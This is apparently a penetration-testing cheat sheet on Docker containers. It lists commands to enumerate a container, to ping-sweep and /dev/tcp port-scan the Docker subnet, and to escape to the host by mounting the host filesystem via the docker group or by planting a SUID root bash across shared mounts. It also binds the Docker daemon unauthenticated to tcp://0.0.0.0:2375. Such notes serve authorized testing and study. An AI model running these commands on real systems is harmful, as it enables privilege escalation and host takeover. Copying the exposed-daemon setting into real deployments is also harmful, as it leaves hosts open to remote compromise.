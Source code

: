 ```yaml
---
icon: docker
---
```


# Docker

<details>

<summary><mark style="color:purple;"><strong><code>Enumeration</code></strong></mark></summary>

* <mark style="color:purple;">**Confirm the presence**</mark> <mark style="color:purple;">**of**</mark> <mark style="color:orange;">**`.dockerenv`**</mark>

{% code title="Check if running as root" overflow="wrap" %}
```sh
cat /proc/self/status
```
{% endcode %}

{% code title="Check SUID/SGID" overflow="wrap" %}
```sh
find / -type f \( -perm -4000 -o -perm -2000 \)
```
{% endcode %}

{% code title="Check processes" overflow="wrap" %}
```sh
ps aux
```
{% endcode %}

{% code title="Check the namespaces" overflow="wrap" %}
```sh
cat /proc/self/ns/
```
{% endcode %}

{% hint style="info" %}
<mark style="color:purple;">When the host's user information does not exist inside the container’s</mark> <mark style="color:orange;">**`/etc/passwd`**</mark> <mark style="color:purple;">file, file permissions will show numeric IDs instead of human-readable names.</mark>
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**If the**</mark>**&#x20;**<mark style="color:orange;">**`socket`**</mark>**&#x20;**<mark style="color:purple;">**is mounted you may be able to use**</mark>**&#x20;**<mark style="color:orange;">**`docker-cli`**</mark><mark style="color:purple;">**:**</mark>

{% code overflow="wrap" %}
```sh
mount | grep docker.sock
```
{% endcode %}

```sh
ls -l /var/run/docker.sock
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Understand the Network`**</mark>

<mark style="color:purple;">Docker containers typically run in a private virtual network created by Docker, and the default network uses a subnet in the range</mark> <mark style="color:orange;">**`172.16.0.0/12`**</mark>

{% code title="Check the IPs" overflow="wrap" %}
```sh
ip addr
```
{% endcode %}

{% code title="Check the routing table" overflow="wrap" %}
```sh
cat /proc/net/fib_trie
```
{% endcode %}

{% code title="Always ping sweep the subnets" overflow="wrap" %}
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

{% code title="Scan ports" overflow="wrap" %}
```sh
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```
{% endcode %}

{% code title="Use OpenSSL to scan ports" overflow="wrap" %}
```sh
for host in 1 2 3 4; do for port in 21 22 25 80 443 8080; do (echo "172.19.0.$host:$port" && openssl s_client -connect 172.19.0.$host:$port 2>/dev/null | grep CONNECTED) & done; done; wait
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check for Mounted File Systems`**</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
cat /proc/mounts
mount | grep <directory>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Look for vulnerabilities and misconfiguration`**</mark>

```sh
cat /etc/docker/daemon.json
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>docker-cli</code></strong></mark></summary>

{% hint style="info" %}
{% code title="List running containers" overflow="wrap" %}
```sh
docker ps
```
{% endcode %}

* <mark style="color:purple;">Check for containers running with elevated privileges (</mark><mark style="color:orange;">**`--privileged`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`--cap-add`**</mark><mark style="color:purple;">).</mark>
* <mark style="color:purple;">Look for containers that share host namespaces or file systems.</mark>
{% endhint %}

{% code title="Check for docker images" overflow="wrap" %}
```sh
docker images
```
{% endcode %}

{% hint style="info" %}
<mark style="color:purple;">Look for containers running as root or with</mark> <mark style="color:orange;">**`--privileged`**</mark> <mark style="color:purple;">mode:</mark>

```sh
docker inspect
```
{% endhint %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Escape the container</code></strong></mark></summary>

<mark style="color:purple;">Tools like</mark> <mark style="color:orange;">**`nsenter`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`docker-exploit`**</mark> <mark style="color:purple;">can be used to attempt escaping the container.</mark>

{% hint style="info" %}
<mark style="color:purple;">If the user is in the</mark> <mark style="color:orange;">**`docker`**</mark> <mark style="color:purple;">group, attempt to run the following command to mount the host filesystem and gain access to the host:</mark>

{% code overflow="wrap" %}
```sh
docker run -v /:/mnt -it bash bash
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`File Ownership Manipulation via Shared Mounts`**</mark>

* <mark style="color:purple;">Check permissions and ownership when you create a file from host and container:</mark>

{% code lineNumbers="true" %}
```sh
touch from_host
touch from_container
```
{% endcode %}

* <mark style="color:purple;">If the container is miss configured and can creates files as a</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">, and you can access the files created by the host on the container:</mark>&#x20;
  1. <mark style="color:orange;">**`From the host`**</mark><mark style="color:purple;">, copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">in to the mounted directory.</mark>
  2. <mark style="color:orange;">**`From the container`**</mark><mark style="color:purple;">, change the ownership and permissions of</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>
  3. <mark style="color:purple;">Execute</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">as</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cp /bin/bash .
chown root:root bash; chmod 4777 bash
./bash -p
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Configure</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>Docker</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>to listen on a</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>TCP</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>port</strong></mark></summary>

1. <mark style="color:purple;">Open the Docker service file, typically at</mark> <mark style="color:red;">**`/lib/systemd/system/docker.service`**</mark> <mark style="color:purple;">or</mark> <mark style="color:red;">**`/etc/systemd/system/docker.service`**</mark><mark style="color:purple;">.</mark>
2. <mark style="color:purple;">Change</mark> <mark style="color:orange;">**`ExecStart`**</mark> <mark style="color:purple;">to bind a</mark> <mark style="color:orange;">**`TCP`**</mark> <mark style="color:purple;">address:</mark>

```
ExecStart=/usr/bin/dockerd --host=tcp://0.0.0.0:2375
```

3. <mark style="color:purple;">Reload the daemon and restart</mark> <mark style="color:orange;">**`Docker`**</mark> <mark style="color:purple;">if needed:</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
systemctl daemon-reload
systemctl restart docker
```
{% endcode %}

4. <mark style="color:purple;">Connect to it using</mark> <mark style="color:orange;">**`docker-cli`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
export DOCKER_HOST=tcp://<host_ip>:2375
docker ps
```
{% endcode %}

</details>

